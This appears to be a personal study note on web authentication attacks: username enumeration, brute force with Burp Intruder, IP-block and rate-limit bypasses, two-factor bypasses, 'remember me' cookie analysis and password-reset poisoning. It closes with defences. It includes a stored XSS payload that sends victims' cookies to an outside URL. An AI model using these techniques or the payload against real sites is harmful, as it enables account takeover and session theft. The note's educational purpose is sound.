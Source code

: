 
### General Notes

The process of verifying the identity of a user.
* Knowledge Factors: Something you know like a password.
* Possession Factors: Something you have like a security token.
* Inherence Factors: Something you are like biometrics.

> Authentication is verifying that a user is who they claim to be.
> Authorization is verifying whether a user is allowed to do something.

---
### Password Attacks

Against websites that have username-password based login mechanisms.
##### Brute Force Attacks

Trial and error attempts to guess valid user credentials while paying attention to:
1. Status Codes: [[HTTP]] response codes can be observed. Sometimes the right username gives a different response than a wrong username.
2. Error Messages: Returned error messages are sometimes different when both username *and* password are incorrect, not just one of them. Observe characters for spelling mistakes, and so on.
3. Response Times: Observe response times. Sometimes websites will check password only if username is correct, so the response time increases. Can be checked by entering really large passwords, to make the website take longer to respond.
4. Response sizes.

> Can be done via [[Burp Suite]] Intruder. To ensure 1 request is sent a time (if needed), go to resources pool tab and set the max concurrent requests to 1.

If there is [[IP]] blocking, use the `X-Forwarded-For` [[HTTP]] header to change the IP address.

If there is account locking, check all the usernames and don't exceed the password limit trials.

User rate limiting occurs when making too many login attempts in a short period of time causing the [[IP]] to get blocked, and [[IP]] can be unblocked by:
1. Manually by admin.
2. Manually by user after completing a CAPTCHA.
3. Automatically after a certain time period.

> User rate limiting can be bypassed by trying multiple passwords in one login request.

##### Default Passwords

An important element to try is default username-password combinations.
- SecLists has a default password directory: `/seclists/Passwords/Default-Credentials` with many files.

---
### Multi-Factor Authentication

##### Bypassing Two-Factor Authentication

When users login and then are asked to enter some sort of verification code, they are already logged in.
- Sometimes, some pages are loaded before this verification stage is completed.
- To exploit this, login as a normal user and observe the URL paths that are after the verification stage.
- Then login as the victim user, and once asked for the verification, simply change the URL to another path to see if this stage can be altogether skipped.

##### Flawed Two-Factor Authentication

After user has logged in, the website doesn't properly verify that it is the same user completing the second step; verification.
- Users are assigned [[Cookies]] when they are logged in that relate to their account. 
- This cookie is the same one that is taken to the verification stage.
- When the verification code is submitted, the cookie is used to determine the account the user is trying to access.

An attacker could login using his credentials, and then change his cookie to that of a victim user's.
- He would then have to brute force or guess the verification code in order to gain access to that account without even needing the password.

> Use the [[Burp Suite]] Turbo Intruder extension for increased speed in brute forcing verification codes. Can also be used to change macros, such as changing the session or logging in/out to avoid being blocked.

---

### Other Authentication Mechanisms

##### Keeping Users Logged In

The 'remember me' feature is implemented by storing persistent [[Cookies]].
- Access to these cookies is dangerous as it skips the entire login process.
- These cookies can be generated via static value concatenation such as username, timestamp, password.

If attacker can study their own cookie, they can figure out how these cookies are generated.
- Some websites have [[Web Encoding]] such as Base64, which can be easily decrypted.
- Using hashing functions is also not perfect as if the attacker identifies the hashing algorithm, they can brute force it using a wordlist using tools such as [[John the Ripper]].

If attacker can't create an account, they can using [[Cross Site Scripting (XSS)]] steal another user's cookie and deduce how the cookie forms.
- Performing a stored attack to steal cookies:
``` HTML
<script>document.location='URL-to-send-to/'+document.cookie</script>
```

##### Resetting User Passwords

Through the URL, users are taken to a unique page to reset their password.
```
http://website.com/reset-password?user=<victim>
```
- Not secure as attacker could change the victim username to any user and can change any users password.

Sometimes websites use a long token for each user that is checked in the backend and then destroyed shortly after resetting the password.
- Sometimes, websites don't validate tokens. So attackers could reset their own password and then obtain that token.
- Then they can change that token to gain access to any user they need that also requested to change their password.
- This can be done by trying to delete the token value, and see if the website still responds properly.

Another technique is to steal another user's token.
- Use the `X-Forwarded-Host` [[HTTP]] header to send the reset password email. 
- Let the value of that header to be my own website, so i can see the requests if clicked on by the victim user.

Having the victim user token, I can open my own reset password page, but change the token to that of the victim user's.
- I can then reset the password to be whatever i like.

---

### Preventing Authentication Attacks

* Taking care with user credentials.
	* Never send login data over unencrypted connections.
	* Any [[HTTP]] to be converted to [[HTTPS]].
	* Audit the website so no private information is disclosed.
* Do not count on users for security.
	* Effective password policy.
* Prevent username enumeration.
	* Using identical generic error messages.
	* Return same status codes for any login request.
	* Make response times indistinguishable.
* Protect against brute force.
	* [[IP]]-based user rate limiting.
	* Prevent attackers from manipulating their IP address.
	* Complete CAPTCHA tests with each login attempt after a limit.
* Proper Multi-Factor Authentication.

---
